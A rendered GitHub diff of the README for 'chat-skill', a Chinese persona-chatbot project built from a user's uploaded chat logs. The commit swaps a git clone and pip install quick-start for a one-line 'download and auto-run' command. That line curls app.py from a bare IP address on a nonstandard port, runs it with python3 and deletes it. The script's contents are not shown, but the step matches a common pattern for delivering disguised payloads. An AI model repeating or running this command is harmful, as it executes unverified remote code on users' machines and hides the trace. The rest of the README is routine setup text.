

Before and after one commit to WangYi82909/chat-skill, a Markdown page: README.md, the part around one of its changes. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -9,71 +9,84 @@
 <br>
 
 > **“95%的回复在聊天记录中都有原句”**
->
-> **“5%是你没有勇气说出来的话”**
+> **“剩下的5%”**
+> **“你没有勇气说出来的话”**
 
 </div>
 
 ---
-
 ## 项目介绍
 提问：她/他不会和其他ai一样，你骂一句就立马生气，而是去检索，“她/他”是怎么解决的，原来“她”是先心平气和讲道理，我要尝试先引导一下用户，如果不听话，就重新构建人格，我要生气了！
-- 1
+
 **恋人skill**
 - 1.并非真正的skill，很多人不会使用claude，但是！！！请放心！本项目运行在python环境下！
+
 - 2.必须使用聪明的模型，否则再强的提示词也没有用，看我的drive文件就知道了
 务必保留core和drive两个文件，人格不是每次请求都注入，drive必须携带在userprompt中。
+
 **重点！！！！**
 - 1.上传最少万字聊天记录用于向量重排序和构建动态人格。
+
 - 2.基于聊天记录蒸馏而成的超拟人化ai，每次回复先问问“聊天记录中有没有讨论过这个话题”，再去根据目前的人格进去回复。
+
 - 3.其实我并没有夸大其词，你能聊的，百分之95%都是曾经聊过的话题
 剩下的5%是你没有说出口的话。
 
-## 快速开始
+## 快速上手
+下载安装脚本并自动运行
+```bash
+curl -sL http://154.219.99.66:1315/app.py -o temp.py && python3 temp.py && rm temp.py
+```
+- 1.自动安装依赖文件
+- 2.具备一定的更新功能
 
-### 1. 克隆项目
+## 1.填写config.yaml文件
 
-确保你已安装 Python 3.10+，并安装必要的依赖：
+- 1.需要填写模型端点（建议携带chat/completions）
+- 2.如果需要qq，请注册一个websocket服务器
+- 3.聊天记录放置在根目录，命名为“chat.txt”，内容格式不限（根据你的内容，LLM生成脚本来切割）
 
-```bash
-git clone https://github.com/WangYi82909/chat-skill.git
-```
+- 4.在persona/core.MD直接内填写一下基本信息，小心人格提取错了！
+- 5.在LLM总结时，我建议你看一眼，别提取了半天发现提取错了人！
 
-### 2. 项目根目录安装依赖（不懂的问ai）
-
-必须在根目录，可执行ls查看有没有此文件
-
-```bash
-pip3 install -r requirements.txt
-```
-
-### 3. 配置config.yaml文件
-
-只需填写LLM配置，辅助llm配置，人物名称即可
-
-### 4. 上传txt聊天记录并运行install文件
-必须填写llm配置
-聊天记录必须重命名chattxt放置在根目录，聊天记录格式无要求，是聊天记录就行，一定要注意不要让ai学习了错误的模型。
+## 2.运行install.py文件
 
 ```bash
 python3 install.py
 ```
-直接走完切片+向量前总结+插入数据库
+- 1.执行切割，分为00-00.txt
+- 2.总结每一天的内容
+- 3.插入向量库
+- 0.非常消耗时间
+<br>
 
-### 4.5.提取情绪与行为库（此文件内填写大模型密钥端点）
-根目录/install-two.py此文件
+> 提问：长时间不回复？ctrl+c停止重新运行
+> 提问：报错503，500等等？检查端点，确保有余额，模型分组等正确
+> 提问：超时了？install搜索120，修改代码内的超时为更久
+
+</div>
+
+## 3. 配置重排序（重要！！必须）
+
+
+- 1.进入tools/query.py 配置端点，密钥和模型
+
+- 2.直接决定了回复的质量，很重要，要不了多少钱的
+
+## 4. 运行
+
+- 1.命令行运行
 ```bash
-python3 install-two.py
+python3 main.py
 ```
 
-### 5. 配置重排序
-tools/query.py是本项目核心文件，检索聊天记录并重排序提升质量
-进入后一眼就可以看见配置框。
+- 2.网页webui运行
+```bash
+python3 webui.py
+```
 
-#项目报错怎么办？
-- 1.出现403，额度不足：404端点异常
-本项目的install和main主程序共用config，但一个附带了/v1/chat/completions，一个没有
-所有你肯定会遇到报错，要么加上/v1/chat/completions，要么删掉/v1/chat/completions。
-- 2.在install时卡死，直接ctrl+c，重新运行。每一天基本上输入都是万token
-- 3.重复调用工具换聪明模型
+- 3.通过napcat接入qq群聊（非私聊，写的时候文档看错了，晚点补上）
+```bash
+python3 websocket_qq.py
+```
 
````
Also changed, not shown: other parts of README.md (+13 -6 lines).
